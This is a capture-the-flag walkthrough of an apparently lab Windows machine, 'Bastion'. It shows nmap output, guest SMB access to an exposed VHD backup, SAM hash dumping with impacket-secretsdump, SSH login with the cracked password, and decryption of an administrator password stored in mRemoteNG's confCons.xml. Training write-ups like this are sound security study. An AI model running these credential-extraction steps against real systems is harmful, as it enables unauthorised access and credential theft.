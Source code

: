 # Enum

### Namp Scap
```
Not shown: 996 closed ports
PORT    STATE SERVICE
22/tcp  open  ssh
135/tcp open  msrpc
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

5985/tcp  open     wsman
```


### Namp Detailed Scan
```
PORT    STATE SERVICE      VERSION
22/tcp  open  ssh          OpenSSH for_Windows_7.9 (protocol 2.0)
| ssh-hostkey: 
|   2048 3a:56:ae:75:3c:78:0e:c8:56:4d:cb:1c:22:bf:45:8a (RSA)
|   256 cc:2e:56:ab:19:97:d5:bb:03:fb:82:cd:63:da:68:01 (ECDSA)
|_  256 93:5f:5d:aa:ca:9f:53:e7:f2:82:e6:64:a8:a3:a0:18 (ED25519)
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -39m56s, deviation: 1h09m16s, median: 2s
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: Bastion
|   NetBIOS computer name: BASTION\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2021-07-19T18:49:22+02:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-07-19T16:49:25
|_  start_date: 2021-07-19T08:47:05
```

***
### Smb-Shares

```
smbclient -L \\\\10.10.10.134\\
```

Avalible Shares:
- `ADMIN$`
- `Backups` ==> `Accessable`
- `C$`
- `IPC$`

In the Backups Folder found a `.vhd` file of a `L4mpje-PC`
***

mounted the `.vhd` backup file to access it  
- https://vk9-sec.com/mount-extract-password-hashes-from-vhd-files/
- https://medium.com/@abali6980/mounting-vhd-files-in-kali-linux-through-remote-share-smb-1c4d37c22211

```bash
mount -t cifs //10.10.10.134/Backups -o user=guest,password= /mnt/remote 
```


Used **Impacket** to Dump hashes
```bash
impacket-secretsdump -sam SAM -system SYSTEM local
```

***
# Footholding

Cracked hashed password for `L4mpje`

ssh into machine using those credentials
```cli
l4mpje@BASTION C:\Users\L4mpje\Desktop>more user.txt 
```

***
# Prev Esc

Found a Vuln program Installed  `mRemoteNG`

On Googling more about it found that its `Config.xml` contains hashed password which can be Cracked

```poweshell
C:\Users\L4mpje\AppData\Roaming\mRemoteNG>more confCons.xml
```

`Administrator` hashed Password Found from it

password cracked using https://github.com/kmahyyg/mremoteng-decrypt
